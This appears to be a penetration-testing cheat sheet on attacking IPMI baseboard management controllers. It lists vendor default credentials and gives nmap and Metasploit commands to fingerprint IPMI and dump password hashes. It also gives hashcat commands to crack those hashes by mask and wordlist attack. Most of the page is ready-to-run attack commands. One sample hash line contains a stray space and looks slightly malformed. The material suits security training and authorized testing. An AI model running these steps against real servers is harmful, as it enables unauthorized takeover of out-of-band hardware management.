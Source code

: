 [Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring.

Some unique default passwords to keep in our cheatsheets include:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|



```bash
sudo nmap -sU --script ipmi-version -p 623 $TARGET
```

To use the Metasploit Version Scan

```bash - kali
msfconsole
```

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
```

```
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts $TARGET
```

```
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```


 In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command  which tries all combinations of upper case letters and numbers for an eight-character password.
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

To retrieve IPMI hashes:

```bash - kali
msfconsole
```
```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```
```bash - kali
set RHOSTS $TARGET
```
```bash - kali
run
```

The hash for a user is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.

```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f 4c923b396 > hash
```

```bash - kali
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
